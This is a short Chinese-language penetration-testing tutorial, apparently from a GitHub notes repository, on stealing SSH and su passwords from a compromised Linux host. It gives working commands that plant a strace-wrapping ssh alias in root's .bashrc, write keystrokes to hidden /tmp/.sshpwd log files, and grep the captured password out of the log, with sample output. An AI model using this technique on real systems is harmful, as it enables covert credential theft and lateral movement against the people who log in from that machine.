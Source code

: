 在当前用户的 .bashrc 里新建一条 alias ，这样可以抓取他登陆其他机器的 ssh 密码

比如当前用户是root

```
cd /root/
vim .bashrc
```

在.bashrc文件的最后一行填上

```
alias ssh='strace -o /tmp/.sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh'
```

使bashrc配置生效

```
source .bashrc
```

之后只要用这台机器登录其他机器或者执行su切换用户输入密码都可以被记录到/tmp/.sshpwd***文件

```shell
root@vuln:/tmp# ls -a
.
..
.font-unix
.ICE-unix
.sshpwd-242月021645667067.log
.sshpwd-242月021645667104.log
systemd-private-36c85ff4ad564cf7826c4f24daa1425e-apache2.service-lPYJk8
systemd-private-36c85ff4ad564cf7826c4f24daa1425e-systemd-timesyncd.service-8vJ5jO
.Test-unix
.X11-unix
.XIM-unix
```

查看一下

```bash
root@vuln:/tmp# cat .sshpwd-242月021645667067.log | grep read
......
read(3, "\211Jc\262!Z\224l\267.\270]\207\201`\225\34\303\313\7\277\352C\223\4\377\22\32\227\3618!\324d\275\313-\342t\312q\225\241]", 8192) = 44
read(3, "`8\20b\212\24\206\326\377\323\214\254OtNe\33=\262,\204lc\225\330\325\360>\216&\306\230P\256\n4\351;\357Lo\274\205\10\262\252n9n\264\177E", 8192) = 52
read(4, "r", 1)                         = 1
read(4, "o", 1)                         = 1
read(4, "o", 1)                         = 1
read(4, "t", 1)                         = 1
read(4, "\n", 1)                        = 1
read(3, "\242+\276\234i\340V\254\355\37qz\361eA\263(\223\367\272\307{\223\373+\177\252;", 8192) = 28
....
```

找到密码为root
